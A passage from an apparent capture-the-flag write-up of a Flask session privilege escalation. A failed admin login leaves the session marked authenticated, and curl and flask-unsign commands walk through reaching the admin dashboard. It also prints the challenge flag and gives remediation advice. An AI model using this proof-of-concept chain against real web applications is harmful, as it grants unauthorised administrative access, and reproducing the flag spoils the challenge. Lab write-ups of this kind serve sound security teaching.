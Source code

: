 1. Step 2 — with the same cookie, initiate a login attempt for `admin` that will fail (wrong password)

```bash
curl -k -b cj_player1.txt -c cj_player1.txt -X POST 'http://HOST/login' -F 'username=admin' -F 'password=wrong' -i

```

Expected result: the login handler sets `user_id`/`username` into the session but does not clear `authenticated` flag.

1. Step 3 — decode session to confirm escalation

```bash
SESSION=$(awk '/\tsession\t/ {print $7}' cj_player1.txt | tail -n1)
flask-unsign --decode --cookie "$SESSION"
# Expect: {'authenticated': True, 'user_id': 'uid=admin,...', 'username': 'admin'}

```

1. Step 4 — access admin dashboard and extract flag

```bash
curl -k -b cj_player1.txt 'http://HOST/dashboard' -i
# or request likely flag pages (/flag, /admin/flag, etc.)

```

Expected result: admin dashboard accessible; flag visible in admin UI.

**Exact outputs observed in lab:** using the chained flow above, the admin dashboard rendered and exposed the flag (displayed in the UI). The retrieved flag was:

`FlagY{90130dd97044ca3c05eba937780d0035}`

(artifact: screenshot captured of the admin dashboard showing the flag.)

---

## Artifacts

- Flag: `FlagY{90130dd97044ca3c05eba937780d0035}`
- PoC commands: curl sequences above (login as player1, reuse cookie, then failed admin login, then access dashboard).
- Evidence: session decoding outputs showing `authenticated: True` and `user_id` set to admin after the chain.

---

## Remediation recommendations

**Quick fixes (priority):**

1. **Do not modify session with identity data before authentication completes.** Only set identity attributes into session after successful credential verification.
2. **Recreate the session on privilege transitions.** After successful login (or logout), issue a fresh session id (cookie) rather than reusing the existing session; e.g., `session.clear()` then set new values or use framework helpers to regenerate session.
3. **Do not leak existence of usernames.** Return generic authentication error messages such as "invalid credentials" for all failures.
